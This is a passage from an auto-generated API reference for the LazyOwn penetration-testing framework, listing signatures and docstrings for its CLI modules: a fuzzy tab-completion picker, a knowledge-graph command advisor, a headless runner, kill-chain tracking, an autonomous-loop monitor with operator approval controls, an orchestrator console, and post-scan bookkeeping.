- `did_you_mean` (line 56) `def did_you_mean(query, candidates)` - *Return the single best correction for query or None.

Args:
    query: Raw operator input.
    candidates: Names to correct against.

Returns:
    Best candidate name, or None when no candidate scores.*

#### `fuzzy_picker.py`
**Path:** `cli/fuzzy_picker.py`
**File Doc:** *Curses-based fuzzy dropdown picker for the LazyOwn interactive shell.  This module is self-contained: it ships a ``PickerConfig`` with every tunable constant, a pure scoring primitive, a curses view, an orchestrator that wires them together, and a thin readline bridge that installs the picker into a ``cmd2`` shell as the Tab-completion display handler.  The module follows SOLID:  - ``PickerConfig`` centralises every magic value (colors, key codes, geometry, glyphs) so callers can override without touching the core. - ``MatchScorer`` is the only place that knows how to rank a candidate against a query (Strategy / Single Responsibility). - ``PickerView`` is an abstract base class; ``CursesPickerView`` is the only concrete realisation but tests can substitute a fake without touching curses (Dependency Inversion / Liskov). - ``FuzzyPicker`` orchestrates scorer + view and exposes a small surface. - ``ReadlineBridge`` is the integration adaptor with the GNU readline display hook contract; it never imports cmd2. - ``install_fuzzy_completion`` is the only public entry point cmd2 callers should use.  The picker is invoked on a single Tab press whenever readline reports two or more candidate completions. With a single candidate, readline's default behaviour is preserved (auto-insert). The picker honours arrow navigation, Tab/Enter for selection, Escape/Ctrl-C/Ctrl-G for cancel, and Backspace to edit the query in-place. Selection is injected back into the readline buffer through ``readline.insert_text`` so the rest of the framework sees the same final input string it would have seen with a normal completion.*

**Classes:**
- `PickerConfig` (line 50) `class PickerConfig` - *Centralised constants for the fuzzy picker.

Every magic number / glyph / key code lives here so that operators or
tests can override behaviour without editing the picker core. Instances
are frozen to keep the configuration value-semantics-safe.*
- `PickerItem` (line 140) `class PickerItem` - *Single candidate displayed in the picker.

``text`` is the value inserted into the readline buffer on selection.
``description`` is an optional secondary string rendered to the right of
the name; it never participates in matching.*
- `ScoredItem` (line 153) `class ScoredItem` - *A picker item paired with a relevance score and matched positions.*
- `MatchScorer` (line 161) `class MatchScorer` - *Score and rank candidates against a query.

The scorer prefers exact and prefix matches, then ordered-subsequence
matches (the classic fuzzy-finder behaviour), then substring matches,
then ``difflib`` similarity as a graceful floor. Positions of matched
characters are exposed for in-line highlighting in the view.*
- `PickerView` (line 221) `class PickerView(ABC)` - *Abstract view contract for a fuzzy picker.

Returning ``None`` signals the user cancelled the picker. Returning a
string is the selected ``PickerItem.text`` to be injected into readline.
Tests can substitute a deterministic fake view to drive integration
scenarios.*
- `CursesPickerView` (line 234) `class CursesPickerView(PickerView)` - *Curses-driven implementation of :class:`PickerView`.

The view paints a bordered dropdown anchored to the cursor location and
consumes keystrokes until the user selects an entry or cancels. All
layout values come from :class:`PickerConfig` so the geometry can be
retuned by operators without source edits.*
- `FuzzyPicker` (line 548) `class FuzzyPicker` - *Top-level orchestrator binding a scorer to a view.*
- `ReadlineBridge` (line 580) `class ReadlineBridge` - *Bridge a :class:`FuzzyPicker` into GNU readline's display hook.

The bridge is the single place that touches the ``readline`` module so
that the rest of the picker code remains testable without a terminal.
Installation is idempotent: calling :py:meth:`install` twice replaces
any previously installed hook, which keeps a single live picker per
shell process.*

**Functions:**
- `install_fuzzy_completion` (line 645) `def install_fuzzy_completion(shell, payload, config)` - *Install the fuzzy picker into a cmd2 shell.

The function is the single public entry point used by ``lazyown.py``.
Returns the live :class:`ReadlineBridge` so the caller can later
uninstall the hook (useful in tests). Returns ``None`` when running in
a non-interactive environment where readline is unavailable.*

**Methods:**
- `from_payload` (line 117) `def from_payload(cls, payload)` - *Build a config from a payload.json view, falling back to defaults.

Honours an optional ``fuzzy_picker`` mapping inside ``payload.json``
so operators can pin the picker geometry without code changes. Any
unknown key is ignored.*
- `__init__` (line 170) `def __init__(self, config)`
- `rank` (line 173) `def rank(self, items, query)` - *Return ``items`` ranked by descending relevance against ``query``.

An empty query yields every input ranked by its position in the
original sequence so the operator sees a stable list.*
- `_score` (line 190) `def _score(self, haystack, query)`
- `_subsequence_positions` (line 209) `def _subsequence_positions(haystack, query)`
- `run` (line 231) `def run(self, items, initial_query)`
- `__init__` (line 243) `def __init__(self, config, scorer)`
- `run` (line 247) `def run(self, items, initial_query)`
- `_tty_available` (line 260) `def _tty_available()`
- `_init_colors` (line 263) `def _init_colors(self)`
- `_event_loop` (line 287) `def _event_loop(self, stdscr, items, initial_query)`
- `_classify_key` (line 337) `def _classify_key(self, key)`
- `_visible_rows` (line 361) `def _visible_rows(self)`
- `_clamp_scroll` (line 364) `def _clamp_scroll(self, offset, cursor, total)`
- `_layout` (line 374) `def _layout(self, stdscr, row_count)`
- `_render_empty` (line 386) `def _render_empty(self, stdscr, query)`
- `_render` (line 405) `def _render(self, stdscr, ranked, query, cursor_index, scroll_offset)`
- `_draw_box` (line 435) `def _draw_box(self, stdscr, top, left, height, width)`
- `_draw_header` (line 450) `def _draw_header(self, stdscr, top, left, width, query, total, selected)`
- `_draw_footer` (line 469) `def _draw_footer(self, stdscr, row_y, left, width)`
- `_draw_item` (line 482) `def _draw_item(self, stdscr, row_y, left, width, scored, selected)`
- `_draw_highlighted` (line 516) `def _draw_highlighted(self, stdscr, row_y, start_x, text, positions, base_attr, selected)`
- `_color` (line 539) `def _color(self, pair_id)`
- `__init__` (line 551) `def __init__(self, config, view_factory)`
- `config` (line 562) `def config(self)`
- `pick` (line 565) `def pick(self, items, initial_query)` - *Return the selected item text or ``None`` on cancel / empty input.

When there are fewer items than ``activation_threshold`` the picker
short-circuits to the single value, preserving readline's normal
single-match auto-insertion semantics for callers that route every
match through the picker.*
- `__init__` (line 592) `def __init__(self, picker)`
- `install` (line 595) `def install(self)` - *Wire the picker into ``readline.set_completion_display_matches_hook``.*
- `uninstall` (line 603) `def uninstall(self)` - *Remove the readline display hook installed by :py:meth:`install`.*
- `_on_display_matches` (line 611) `def _on_display_matches(self, substitution, matches, longest_match_length)`
- `_strip_ansi` (line 632) `def _strip_ansi(cls, value)`
- `_redraw_prompt` (line 636) `def _redraw_prompt()`

#### `graph_advisor.py`
**Path:** `cli/graph_advisor.py`
**File Doc:** *Graph-aware advisor backed by the graphify knowledge graph.  This module turns the JSON file produced by ``/graphify`` over the LazyOwn codebase (``graphify-out/graph_lazyown.json`` or any standard graphify ``graph.json``) into a fast, in-memory advisor that powers two new user-experience features:  1. **Human operators** get graph-aware CLI commands — ``graph_search``, ``neighbors``, ``god_nodes``, ``suggest_next`` — and "did you mean ...?" recovery when they type an unknown ``do_*`` command. The advisor reads the recent ``LazyOwn_session_report.csv`` and recommends the next command by walking the graph outward from the most recent nodes. 2. **MCP agents** get four token-budget-aware tools so they can ask the knowledge graph for related commands, neighbours, suggestions, and a summary without re-reading the full report each turn.  Design (SOLID):  - ``GraphAdvisorConfig`` centralises every magic value (file paths, budgets, scoring weights, glyphs, token-budget caps). - ``GraphLoader`` is the only piece touching the filesystem. It caches by ``(path, mtime)`` so repeated calls inside one process are free. - ``GraphIndex`` provides O(1) lookups by id, label, and community. - ``GraphScorer`` is a pure ranking primitive (Single Responsibility). - ``GraphAdvisor`` is the orchestrator. It composes loader + index + scorer and exposes the small public surface used by the CLI, the MCP layer, the C2 web UI and the test suite.  The module has zero coupling to ``cmd2``, ``mcp.server``, ``flask`` or ``lazyown.py``. Every public method returns plain Python types so the*

**Classes:**
- `GraphAdvisorConfig` (line 50) `class GraphAdvisorConfig` - *Centralised constants for the graph advisor.

Every magic path, budget, weight or glyph lives here. Operators or
tests can override any field by passing a fresh instance to
:class:`GraphAdvisor`.*
- `GraphNode` (line 98) `class GraphNode` - *Immutable view onto a node loaded from the graphify JSON.*
- `GraphEdge` (line 122) `class GraphEdge` - *Immutable view onto an edge loaded from the graphify JSON.*
- `ScoredNode` (line 143) `class ScoredNode` - *Node plus its score and match position metadata.*
- `GraphLoader` (line 151) `class GraphLoader` - *Load a graphify JSON file with per-process ``(path, mtime)`` cache.*
- `GraphIndex` (line 211) `class GraphIndex` - *In-memory index over a graphify graph for O(1) lookups.*
- `GraphScorer` (line 299) `class GraphScorer` - *Pure ranking primitive shared by search and suggest-next.*
- `GraphAdvisor` (line 354) `class GraphAdvisor` - *High-level facade over the graphify knowledge graph.

All public methods return plain Python lists/dicts so callers can
serialise to JSON (MCP), render Markdown (CLI) or template HTML (web
UI) without further translation.*

**Functions:**
- `format_search_table` (line 691) `def format_search_table(results)` - *Render search results as a fixed-width table for the cmd2 shell.*
- `format_neighbors` (line 706) `def format_neighbors(result)` - *Render a :py:meth:`GraphAdvisor.neighbors` result as plain text.*
- `format_god_nodes` (line 724) `def format_god_nodes(results)`
- `format_suggestions` (line 734) `def format_suggestions(results)`

**Methods:**
- `to_summary` (line 109) `def to_summary(self)` - *Return a small, JSON-safe summary suitable for MCP responses.*
- `to_summary` (line 132) `def to_summary(self)`
- `__init__` (line 156) `def __init__(self, config)`
- `resolve_path` (line 160) `def resolve_path(self, override)` - *Resolve which graphify JSON file to load.

Honours an explicit override; otherwise returns the last path
successfully loaded through this loader, falling back to a scan
of :attr:`GraphAdvisorConfig.graph_candidates` inside
:attr:`GraphAdvisorConfig.graphify_dir`. Returns ``None`` when no
graph is available so callers can present a clear "graph
missing" message instead of crashing.*
- `load` (line 184) `def load(self, override)`
- `clear_cache` (line 207) `def clear_cache(cls)`
- `__init__` (line 214) `def __init__(self, data)`
- `_build` (line 223) `def _build(self)`
- `nodes` (line 277) `def nodes(self)`
- `get` (line 280) `def get(self, node_id)`
- `neighbors` (line 283) `def neighbors(self, node_id)`
- `edges_between` (line 286) `def edges_between(self, source, target)`
- `community_members` (line 289) `def community_members(self, community_id)`
- `degree` (line 292) `def degree(self, node_id)`
- `degree_ranked` (line 295) `def degree_ranked(self)`
- `__init__` (line 304) `def __init__(self, config)`
- `rank` (line 307) `def rank(self, nodes, query)`
- `_best_score` (line 319) `def _best_score(self, node, terms, raw_query)`
- `_score` (line 335) `def _score(self, value, terms, query)`
- `_tokens` (line 350) `def _tokens(self, query)`
- `__init__` (line 362) `def __init__(self, config, loader, index, scorer)`
- `from_path` (line 375) `def from_path(cls, path, config)`
- `is_available` (line 384) `def is_available(self)`
- `reload` (line 387) `def reload(self, path)`
- `summary` (line 396) `def summary(self)`
- `_graph_age_days` (line 423) `def _graph_age_days(self, path)`
- `_classify_health` (line 432) `def _classify_health(self, edges_count, age_days)`
- `search` (line 445) `def search(self, query, limit)`
- `neighbors` (line 456) `def neighbors(self, node_query, depth, limit)`
- `god_nodes` (line 505) `def god_nodes(self, limit)`
- `suggest_next` (line 520) `def suggest_next(self, recent_commands, limit)` - *Suggest next commands by walking the graph outward from recent ones.

``recent_commands`` is a list of command identifiers — typically
read from ``sessions/LazyOwn_session_report.csv``. The suggestion
score is the weighted sum of inverse-distance contributions from
every recent seed, with an exponential decay configured on
:class:`GraphAdvisorConfig`. Nodes that *are* recent commands are
deprioritised so the suggestion is always forward-looking.*
- `read_recent_commands` (line 566) `def read_recent_commands(self, window)` - *Read the last N executed commands from the session transcript.*
- `did_you_mean` (line 591) `def did_you_mean(self, query, limit)`
- `truncate_to_budget` (line 605) `def truncate_to_budget(self, payload, budget_tokens)` - *Trim list fields in-place so the JSON dump fits a token budget.*
- `_seed_nodes` (line 624) `def _seed_nodes(self, recent_commands)`
- `_resolve_query` (line 638) `def _resolve_query(self, query)`
- `_bfs_distance` (line 649) `def _bfs_distance(index, start, max_hops)`
- `_iter_all_edges` (line 665) `def _iter_all_edges(index)`
- `_ensure_index` (line 675) `def _ensure_index(self)`
- `_missing_reason` (line 684) `def _missing_reason(self)`

#### `graph_overlay.py`
**Path:** `cli/graph_overlay.py`
**File Doc:** *Textual overlay over :mod:`cli.graph_advisor`.  The overlay visualises the same data ``god_nodes`` and ``neighbors`` already expose as text. The operator types a focus node, sees the matching seed plus its neighbours grouped by hop, and switches between "god nodes" (highest-degree) and "neighbors of <node>" modes from a single screen.  Design (SOLID):  - Single Responsibility: :class:`GraphOverlayConfig` owns constants, :class:`GraphOverlayState` calls into :class:`GraphAdvisor` and normalises the results, :class:`GraphOverlayApp` renders. - Open/Closed: a new view mode is one ``View`` enum entry plus one branch in :meth:`GraphOverlayState.snapshot`. - Dependency Inversion: the state takes a callable that returns a :class:`GraphAdvisor`-shaped object so tests pass a fake. - No magic numbers / hardcoded paths: every value lives in the config. - Textual is imported lazily — :func:`launch_overlay` returns ``None`` when Textual is missing or the graph is unavailable.*

**Classes:**
- `GraphOverlayView` (line 33) `class GraphOverlayView(StrEnum)` - *Two view modes the overlay toggles between.*
- `GraphOverlayConfig` (line 41) `class GraphOverlayConfig` - *Centralised constants for the overlay.*
- `GraphOverlayItem` (line 59) `class GraphOverlayItem` - *One render-ready row.*
- `GraphOverlayState` (line 69) `class GraphOverlayState` - *Pure data layer for the overlay.*
- `_GraphOverlayApp` (line 246) `class _GraphOverlayApp(App)`

**Functions:**
- `_default_advisor_factory` (line 181) `def _default_advisor_factory()`
- `build_state` (line 192) `def build_state(config, advisor_factory)` - *Wire the canonical state used by :func:`launch_overlay`.*
- `launch_overlay` (line 203) `def launch_overlay(payload, state, runner)` - *Open the overlay and return the last-focused node id on exit.

Args:
    payload: Loaded ``payload.json``.
    state: Optional pre-built state.
    runner: Optional callable used by tests.

Returns:
    The last focused node id, or ``None`` when cancelled / Textual
    unavailable.*
- `_build_app` (line 235) `def _build_app(state, theme)`

**Methods:**
- `is_available` (line 77) `def is_available(self)` - *Return ``True`` when the underlying graph advisor has data.*
- `set_focus` (line 87) `def set_focus(self, value)` - *Replace the focus query.*
- `toggle_view` (line 95) `def toggle_view(self)` - *Switch between god-nodes and neighbors-of-focus.*
- `snapshot` (line 102) `def snapshot(self)` - *Return ``(header, items)`` for the current view.*
- `_god_nodes` (line 111) `def _god_nodes(self, advisor)`
- `_neighbors` (line 119) `def _neighbors(self, advisor)`
- `_row` (line 147) `def _row(self, payload, badge)`
- `_edge_badge` (line 159) `def _edge_badge(self, edges)`
- `_truncate` (line 169) `def _truncate(self, value)`
- `_advisor` (line 174) `def _advisor(self)`
- `__init__` (line 260) `def __init__(self)`
- `compose` (line 265) `def compose(self)`
- `on_mount` (line 273) `def on_mount(self)`
- `on_input_changed` (line 276) `def on_input_changed(self, event)`
- `action_toggle_view` (line 280) `def action_toggle_view(self)`
- `action_close` (line 284) `def action_close(self)`
- `_refresh` (line 287) `def _refresh(self)`

#### `headless.py`
**Path:** `cli/headless.py`
**File Doc:** *Headless / non-interactive runner for automated pipelines.  Provides HeadlessRunner which wraps LazyOwnShell and produces structured JSON output suitable for CI/CD and agent-driven ops.*

**Classes:**
- `HeadlessRunner` (line 62) `class HeadlessRunner` - *Non-interactive runner that executes commands and emits structured output.

Usage:
    shell = LazyOwnShell()
    runner = HeadlessRunner(shell, json_output=True)
    runner.run_command("nmap_scan")
    sys.exit(runner.exit_code)*

**Functions:**
- `load_profile` (line 31) `def load_profile(path)` - *Load a YAML profile that overrides payload.json keys.

Args:
    path: filesystem path to the YAML profile.

Returns:
    Dictionary of config overrides.

Raises:
    FileNotFoundError: profile not found.
    yaml.YAMLError: malformed YAML.*
- `apply_profile` (line 48) `def apply_profile(config, profile)` - *Merge profile values into config (shallow overlay).

Args:
    config: base configuration dictionary (e.g. shell.params).
    profile: override dictionary from profile file.

Returns:
    Updated config (same reference).*

**Methods:**
- `__init__` (line 72) `def __init__(self, shell, json_output, profile_path)`
- `run_command` (line 87) `def run_command(self, cmd, timeout)` - *Execute a single command, capture output, return structured result.

Args:
    cmd: command string to execute via onecmd.
    timeout: optional timeout in seconds (not yet enforced).

Returns:
    Dict with keys: command, success, output, error, duration_ms.*
- `run_chain` (line 132) `def run_chain(self, commands)` - *Execute multiple commands and emit final summary.

Args:
    commands: list of command strings to execute sequentially.

Returns:
    List of result dicts, one per command.*

#### `killchain.py`
**Path:** `cli/killchain.py`
**File Doc:** *Self-populating kill-chain progress derived from the daemon event stream.  This module exists for backward compatibility. The canonical phase definitions and progress computation now live in ``modules.killchain.KillChain``, which already wraps ``WorldModel`` and raw ``world_model.json``. Consumers should migrate there.  For daemon-event-stream-based progress that includes per-phase activity and reward statistics, the :func:`compute_killchain` function remains.*

**Classes:**
- `PhaseProgress` (line 29) `class PhaseProgress` - *Computed progress for a single kill-chain phase.

Attributes:
    key: Canonical phase identifier (e.g. ``recon``).
    label: Human-readable phase label (e.g. ``Recon``).
    state: One of :data:`STATE_DONE`, :data:`STATE_ACTIVE`,
        :data:`STATE_PENDING`.
    activity: Number of daemon step events observed in this phase.
    reward: Sum of step rewards recorded in this phase.*

**Functions:**
- `_phase_from_event` (line 48) `def _phase_from_event(event)` - *Return the phase an event belongs to, empty string if absent.*
- `_detect_current_phase` (line 58) `def _detect_current_phase(events, world, phase_keys)` - *Resolve the active phase from events, falling back to the world model.

Args:
    events: Daemon events ordered oldest first.
    world: Parsed ``world_model.json`` snapshot.
    phase_keys: Ordered list of canonical phase identifiers.

Returns:
    The active phase identifier, or an empty string when unknown.*
- `compute_killchain` (line 83) `def compute_killchain(events, world, phases)` - *Compute kill-chain progress from daemon events and the world model.

A phase is marked *done* when the engagement has advanced past it (its index
is below the active phase) or the world model explicitly lists it as
completed. The active phase is *active*; everything after it is *pending*.
Per-phase activity counts and accumulated reward are derived from the step
events regardless of state.

Args:
    events: Daemon events ordered oldest first (see
        :func:`cli.reasoning_stream.read_raw_events`).
    world: Optional ``world_model.json`` snapshot used as a fallback for the
        current phase and for an explicit ``completed_phases`` list.
    phases: Ordered ``(key, label)`` pairs describing the kill chain.

Returns:
    One :class:`PhaseProgress` per phase, in kill-chain order.*

#### `lazy_monitor.py`
**Path:** `cli/lazy_monitor.py`
**File Doc:** *Live worker-visibility monitor for the autonomous loop.  The loop is never a black box: every worker's tool calls, results, guard decisions, approvals, traffic and findings stream into a multi-pane Textual view. Two modes share the same rendering:  - attach (``lazy_view [task]``): tails the task's store files, so it works from a second terminal while ``lazy_loop`` runs elsewhere and keeps working after the run for audit; - embedded (``lazy_loop --view``): the runner starts the engine inside this app and also streams the executor's raw output live.  Keys: ``q`` quit, ``p``/``r`` pause/resume, ``a``/``d`` approve/deny first pending intercept, ``h`` hint, ``s`` steer, ``k`` kill, ``f`` findings, ``g`` guard, ``t`` traffic, ``1``..``5`` focus a worker.*

**Classes:**
- `PromptModal` (line 61) `class PromptModal` - *One-line modal used for hints and steering messages.*
- `LazyMonitorApp` (line 89) `class LazyMonitorApp` - *Multi-pane loop monitor with operator controls.*

**Functions:**
- `_hint_via_graph` (line 566) `def _hint_via_graph(task_id, text)` - *Inject a hint without a live engine instance (attach mode).*
- `run_monitor_command` (line 575) `def run_monitor_command(task_id)` - *Attach the monitor to an existing task (never blocks the loop).

Args:
    task_id: Task to inspect (empty picks the newest task).

Returns:
    App exit payload (unused by attach mode, kept for symmetry).*
- `run_monitor_session` (line 589) `def run_monitor_session(engine, config, params)` - *Run the loop inside the monitor (``lazy_loop --view``).

Args:
    engine: Bound :class:`LazyEngine`.
    config: :class:`modules.lazy_runner.LoopRunConfig`.
    params: Payload mapping (kept for signature parity).

Returns:
    Orchestrator summary produced by the embedded run.*
- `_stream` (line 217) `def _stream(line)`
- `_run` (line 225) `def _run()`
- `_done` (line 448) `def _done(text)`
- `_done` (line 467) `def _done(text)`

**Methods:**
- `__init__` (line 66) `def __init__(self, title, placeholder)` - *Store the modal labels.*
- `compose` (line 72) `def compose(self)` - *Title plus a single input line.*
- `on_input_submitted` (line 80) `def on_input_submitted(self, event)` - *Dismiss with the typed value.*
- `action_dismiss` (line 84) `def action_dismiss(self, value)` - *Escape closes with an empty value.*
- `__init__` (line 124) `def __init__(self, task_id, engine, config, params)` - *Bind the monitor to a task and optionally embed a live engine.*
- `compose` (line 140) `def compose(self)` - *Build the split view: stages, worker panes, audit tabs.*
- `on_mount` (line 168) `def on_mount(self)` - *Resolve the task, wire pane logs and start polling.*
- `_resolve_task` (line 192) `def _resolve_task(self)` - *Pick the newest task when none was given.*
- `_init_tails` (line 203) `def _init_tails(self)` - *Create one incremental reader per audited stream.*
- `_start_engine` (line 213) `def _start_engine(self)` - *Run the embedded orchestration in a background thread.*
- `_finish` (line 246) `def _finish(self, result)` - *Store the engine summary and announce completion.*
- `_poll` (line 252) `def _poll(self)` - *Tail every store, update panes, stages and approvals.*
- `_overview` (line 263) `def _overview(self)` - *Current graph overview (never raises).*
- `_drain_activity` (line 270) `def _drain_activity(self)` - *Route new activity rows to the worker panes and activity tab.*
- `_drain_guard` (line 290) `def _drain_guard(self)` - *Render new guard audit rows.*
- `_drain_traffic` (line 304) `def _drain_traffic(self)` - *Render new traffic records.*
- `_render_approvals` (line 313) `def _render_approvals(self)` - *Show the pending approval queue with its decision keys.*
- `_render_findings` (line 332) `def _render_findings(self)` - *Refresh the findings tab from the exploration graph.*
- `_render_stages` (line 351) `def _render_stages(self, overview)` - *Render the orchestrator chain milestones plus counters.*
- `_append_activity` (line 387) `def _append_activity(self, text, style)` - *Append a raw line to the activity transcript.*
- `_append_activity_text` (line 392) `def _append_activity_text(self, line)` - *Safe write to the activity log.*
- `_running_intent` (line 399) `def _running_intent(self)` - *Return the newest running/open intent for steer/kill actions.*
- `action_pause` (line 409) `def action_pause(self)` - *Pause the task between worker steps.*
- `action_resume` (line 417) `def action_resume(self)` - *Resume a paused task.*
- `action_approve` (line 425) `def action_approve(self)` - *Approve the first pending intercept.*
- `action_deny` (line 429) `def action_deny(self)` - *Deny the first pending intercept.*
- `_decide` (line 433) `def _decide(self, verdict)` - *Decide the first pending approval.*
- `action_hint` (line 445) `def action_hint(self)` - *Inject an operator hint for the next planner round.*
- `action_steer` (line 460) `def action_steer(self)` - *Send a mid-run correction to the newest running intent.*
- `action_kill` (line 477) `def action_kill(self)` - *Kill the newest running intent.*
- `action_tab_findings` (line 489) `def action_tab_findings(self)` - *Focus the findings tab.*
- `action_tab_guard` (line 493) `def action_tab_guard(self)` - *Focus the guard tab.*
- `action_tab_traffic` (line 497) `def action_tab_traffic(self)` - *Focus the traffic tab.*
- `_focus_tab` (line 501) `def _focus_tab(self, tab_id)` - *Activate one bottom tab by id.*
- `action_focus_worker` (line 508) `def action_focus_worker(self, index)` - *Scroll the matching worker pane into view.*
- `action_next_task` (line 518) `def action_next_task(self)` - *Switch the monitor to the next task in the store.*
- `_reset_view` (line 537) `def _reset_view(self)` - *Drop tails, panes and caches so the next poll reloads cleanly.*

#### `lazy_orchestrator.py`
**Path:** `cli/lazy_orchestrator.py`
**File Doc:** *Orchestrator admin console for the autonomous loop.  A Textual TUI in the spirit of the marketplace configurator:  - Now: what the loop is executing right now (task, stages, live activity tail, per-worker current command); - Config: every payload knob the runner reads (rounds, workers, heartbeat, verb timeout, agentic flags, NOA, proxy); - Models: the LLM failover chain (add/remove members); - Guard: the intercept rules (add/remove).  Edits persist straight to ``payload.json`` (or a sandbox path in tests) through ``core.config``; nothing else mutates global state.*

**Classes:**
- `ConfigField` (line 59) `class ConfigField` - *One editable payload knob.*
- `FormModal` (line 81) `class FormModal` - *Generic key/value modal used for models and guard rules.*
- `LazyOrchestratorApp` (line 118) `class LazyOrchestratorApp` - *Admin console: Now / Config / Models / Guard.*

**Functions:**
- `_coerce` (line 634) `def _coerce(raw)` - *Coerce a form string into bool/int when it clearly is one.*
- `run_orchestrator_console` (line 651) `def run_orchestrator_console(task_id)` - *Launch the admin console (attach mode).*
- `_done` (line 588) `def _done(values)`
- `_done` (line 520) `def _done(values)`
- `_done_rule` (line 537) `def _done_rule(values)`
- `_done_verb` (line 554) `def _done_verb(values)`

**Methods:**
- `__init__` (line 86) `def __init__(self, title, fields)` - *Store the title and (id, label, placeholder) field specs.*
- `compose` (line 92) `def compose(self)` - *One labeled input per field plus a save button.*
- `on_button_pressed` (line 101) `def on_button_pressed(self, event)` - *Collect the values and close the modal.*
- `on_input_submitted` (line 110) `def on_input_submitted(self, event)` - *Enter commits the form like the save button.*
- `__init__` (line 142) `def __init__(self, payload_path, task_id)` - *Bind the console to a payload file and an optional task.*
- `compose` (line 152) `def compose(self)` - *Build the four panes.*
- `on_mount` (line 177) `def on_mount(self)` - *Load the payload into the form and refresh the data tables.*
- `toggle_stage` (line 187) `def toggle_stage(self, name)` - *Flip one pipeline stage on/off and persist it.*
- `toggle_verb` (line 196) `def toggle_verb(self, name)` - *Flip one auto verb on/off and persist it.*
- `add_auto_verb` (line 205) `def add_auto_verb(self, name, keywords, needs_target, description)` - *Register a new operator-defined auto verb.*
- `remove_auto_verb` (line 220) `def remove_auto_verb(self, name)` - *Delete a custom verb, or disable a built-in one.*
- `_refresh_stages` (line 228) `def _refresh_stages(self)` - *Render the pipeline stages with their firing condition.*
- `_refresh_verbs` (line 244) `def _refresh_verbs(self)` - *Render the auto verbs with source, state and keywords.*
- `_load_payload` (line 268) `def _load_payload(self)` - *Load the payload mapping (empty on failure).*
- `_load_payload_into_form` (line 278) `def _load_payload_into_form(self)` - *Fill the config inputs with the current payload values.*
- `save_config` (line 289) `def save_config(self, values)` - *Merge the given keys into the payload and persist it.

Args:
    values: Mapping of payload keys to new values (strings).

Returns:
    The updated payload mapping.*
- `add_model_member` (line 311) `def add_model_member(self, name, model, priority)` - *Append one LLM chain member; returns the stored name.*
- `remove_model_member` (line 319) `def remove_model_member(self, name)` - *Drop one LLM chain member by name.*
- `set_model_priority` (line 327) `def set_model_priority(self, name, priority)` - *Change one LLM member's failover rank and repaint the table.*
- `add_guard_rule` (line 339) `def add_guard_rule(self, pattern, action, reason)` - *Register one guard intercept rule.*
- `remove_guard_rule` (line 347) `def remove_guard_rule(self, pattern)` - *Delete one guard rule by exact pattern.*
- `_refresh_models` (line 355) `def _refresh_models(self)` - *Render the LLM chain into the models table.*
- `_refresh_guard` (line 376) `def _refresh_guard(self)` - *Render the guard rules into the guard table.*
- `_resolve_task` (line 398) `def _resolve_task(self)` - *Pick the requested task or the newest running/running-ish one.*
- `_poll_now` (line 416) `def _poll_now(self)` - *Tail the active task's activity into the Now pane.*
- `on_button_pressed` (line 451) `def on_button_pressed(self, event)` - *Handle the config save button.*
- `action_refresh` (line 469) `def action_refresh(self)` - *Reload tables and form from disk.*
- `_selected_row` (line 477) `def _selected_row(self, table_id)` - *Return the row key of the selected row, or empty string.*
- `action_toggle_item` (line 486) `def action_toggle_item(self)` - *Toggle the selected stage or auto verb.*
- `action_save_config` (line 498) `def action_save_config(self)` - *Save the form values (keyboard shortcut).*
- `_active_tab` (line 508) `def _active_tab(self)` - *Return the active tab id.*
- `action_add_item` (line 515) `def action_add_item(self)` - *Open the add modal for the active tab.*
- `action_edit_item` (line 575) `def action_edit_item(self)` - *Edit the selected LLM member's priority (models tab only).*
- `action_delete_item` (line 609) `def action_delete_item(self)` - *Delete the selected row in the active tab.*

#### `lazynmap_post.py`
**Path:** `cli/lazynmap_post.py`
**File Doc:** *Post-scan side effects executed at the tail of ``do_lazynmap``.  Three artefacts are produced after every successful scan:  1. ``sessions/recon_plan_<target>.md`` — operator + LLM-readable plan generated by :func:`cli.recon_plan.build_recon_plan`. 2. ``sessions/world_model.json`` — phase bumped to ``enum`` so the daemon / autonomous loop / status bar agree we have just transitioned past pure recon. 3. ``sessions/autonomous_events.jsonl`` — one ``lazynmap.recon_plan`` event so MCP consumers (``lazyown_poll_events`` and the dashboard) see the transition.  Every step is best-effort: failure in one branch must not block the others or propagate back into :class:`LazyOwnShell`. The implementation is pure Python (no ``cmd2``, ``rich`` or ``flask`` imports) so the suite can exercise it with hand-rolled fixtures.*

**Classes:**
- `PostScanConfig` (line 57) `class PostScanConfig` - *Immutable configuration for :func:`run_post_scan`.

Every default mirrors a key already documented in ``CLAUDE.md`` so
the operator can adjust behaviour via ``payload.json`` without
touching code.*
- `PostScanResult` (line 76) `class PostScanResult` - *Structured outcome of :func:`run_post_scan`.

Attributes:
    skipped: ``True`` when the operator toggled the feature off.
    plan: The generated :class:`ReconPlan`, or ``None`` on failure.
    plan_path: Filesystem path the plan was written to, when any.
    world_model_updated: ``True`` when the phase write succeeded.
    event_emitted: ``True`` when the events.jsonl append succeeded.*

**Functions:**
- `run_post_scan` (line 94) `def run_post_scan(target, payload, console, config, engine_factory, plan_config, clock)` - *Generate the plan, bump the world model and emit an event.

Args:
    target: Host the scan was performed on.
    payload: ``payload.json`` mapping. Used to resolve the active
        platform and the ``enable_recon_plan`` toggle.
    console: Optional duck-typed console (``rich.console.Console``
        compatible). When ``None`` the plan is still written to
        disk; only the inline preview is suppressed.
    config: Optional :class:`PostScanConfig` override.
    engine_factory: Zero-arg callable returning an
        :class:`ExplorationEngine`. Defaults to one wired against
        ``cfg.sessions_dir`` and the payload-resolved OS.
    plan_config: Optional :class:`ReconPlanConfig` override.
    clock: Zero-arg callable returning epoch seconds.

Returns:
    A :class:`PostScanResult` summarising what was produced. The
    function never raises — every error path is logged via
    ``console.print`` and recorded as ``False`` in the result.*
- `_enabled` (line 164) `def _enabled(payload, cfg)` - *Return the resolved value of the recon-plan toggle.*
- `_default_engine_factory` (line 180) `def _default_engine_factory(payload, cfg)`
- `_update_world_model_phase` (line 188) `def _update_world_model_phase(cfg, target, clock_fn)`
- `_emit_event` (line 213) `def _emit_event(cfg, target, plan, plan_path, clock_fn)`
- `_atomic_write_json` (line 263) `def _atomic_write_json(path, data, mode)`
- `_safe_log` (line 291) `def _safe_log(console, message)`

#### `marketplace_config.py`
**Path:** `cli/marketplace_config.py`
